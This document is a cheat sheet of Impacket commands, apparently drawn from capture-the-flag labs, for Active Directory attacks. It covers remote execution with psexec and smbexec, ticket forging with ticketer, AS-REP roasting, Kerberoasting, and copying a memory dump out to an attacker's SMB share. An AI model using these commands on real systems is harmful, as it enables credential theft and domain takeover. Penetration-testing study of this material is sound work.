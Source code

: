https://github.com/fortra/impacket/releases

### MSSQLClient
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
```
### Impacket - PSExec
```bash
psexec.py 'user:pass@ipaddr'

psexec.py -dc-ip infiltrator.htb -target-ip infiltrator.htb -no-pass -k infiltrator.htb/E.RODRIGUEZ@infiltrator.htb
```
### Impacket - SMBServer
```bash
smbserver.py -smb2support -username guest -password guest share ./

# Windows Connection
net use x: \\10.10.14.165\share /user:guest guest

# Copy Files
cmd /c "copy firefox.dmp X:\"
```
### Impacket - SMBExec
```bash
impacket-smbexec -k -no-pass -dc-ip 10.10.11.24 CORP.GHOST.HTB/administrator@dc01.ghost.htb
```
### Impacket - TicketConvertor
```bash
ticketConverter.py /PATH/ticket.kirbi ticket.ccache

export=KRB5CCNAME=/PATH/ticket.ccache
```
### Impacket - Ticketer
```bash
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb administrator
```
### Impacket - Samrdump.py
```bash
samrdump.py 10.129.14.128
```

### Impacket - GetTGT.py
```
getTGT.py -dc-ip dc01.infiltrator.htb infiltrator.htb/D.anderson
```
### Impacket - GetNPUsers.py
[GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) can be used to retrieve domain users who have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords. It is then possible to attempt to crack the session key sent along the ticket to retrieve the user password. This attack is known as [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast).
```
# users list dynamically queried with an RPC null session
GetNPUsers.py -dc-ip dc01.infiltrator.htb -usersfile users.txt infiltrator.htb/

GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

### Impacket - GetUserSPNs
[GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can be used to obtain a password hash for user accounts that have an SPN (service principal name). If an SPN is set on a user account it is possible to request a Service Ticket for this account and attempt to crack it in order to retrieve the user password. This attack is named [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast). This script can also be used for [Kerberoast without preauthentication](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication).
```
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

# Kerberoast without preauthentication
GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```